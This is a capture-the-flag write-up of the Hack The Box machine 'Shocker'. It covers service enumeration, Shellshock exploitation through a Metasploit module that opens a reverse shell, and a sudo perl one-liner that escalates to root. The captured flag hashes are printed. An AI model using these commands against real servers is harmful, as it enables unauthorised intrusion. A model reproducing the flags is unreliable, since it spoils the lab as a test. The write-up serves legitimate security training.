 # HTB: Shocker

## Engagement Overview  
**Target:** Shocker (HTB)  
**Box IP:** 10.10.10.56  
**Date:** 2025-07-08  
**Difficulty:** Easy

---

### Objectives  
- Enumerate HTTP and SSH services  
- Identify and exploit the Shellshock vulnerability  
- Escalate privileges to root  
- Capture user and root flags  

---

## Service Enumeration

```bash
nmap -sV -sC -p- 10.10.10.56
```

- **Port 80/tcp** – Apache 2.4.18 (Ubuntu)  
- **Port 2222/tcp** – OpenSSH 7.2p2 Ubuntu

### Dirsearch Results
```bash
dirsearch -u http://10.10.10.56 -e cgi,sh,pl,py
```

- `/cgi-bin/user.sh` (confirmed for Shellshock)
- Other 403 responses for `.htaccess*`, `/server-status`, etc.

---

## Methodologies

### Initial Access - Shellshock (CVE-2014-6271)

**Vulnerability Explanation:**  
Apache mod_cgi allows remote code execution via crafted HTTP headers. Exploitable through the `user.sh` script in `/cgi-bin/`.

**Exploitation Method (Metasploit):**
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST <your-ip>
run
```

**Post-Exploitation:**  
- Shell received via Meterpreter  
- User: `shelly`

---

## Privilege Escalation

**sudo -l output:**  
```bash
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

**Exploitation:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

- Shell escalated to root  
- `whoami` → `root`  
- `root.txt` captured

---

## House Cleaning
- Verified user and root flags
- Session closed cleanly
- No modifications left on disk

---

## Post-Exploitation

**Tools Utilized**
* `nmap`  
* `dirsearch`  
* `metasploit`  
* `LinEnum`  
* `gtofbins`  

**User Flag:**  
`084f092f15d55672beb680d9d4c00bca`  

**Root Flag:**  
`5b644f916a82afcad38cd359ec742ccc`  

---

## Key Takeaways

* **Tool Familiarity:** Improved comfort with `msfconsole`; it aligns well with your mental model.
* **Shell Handling:** Gained insight into managing reverse shells and privilege escalation using simple scripted payloads.
* **Practical Scripting Idea:** Consider writing a custom parser for `linenum.sh` output to streamline future small-box enumeration.
* **Flow Clarity:** HTB easy boxes like this are best used for muscle memory on tooling and developing clean workflows.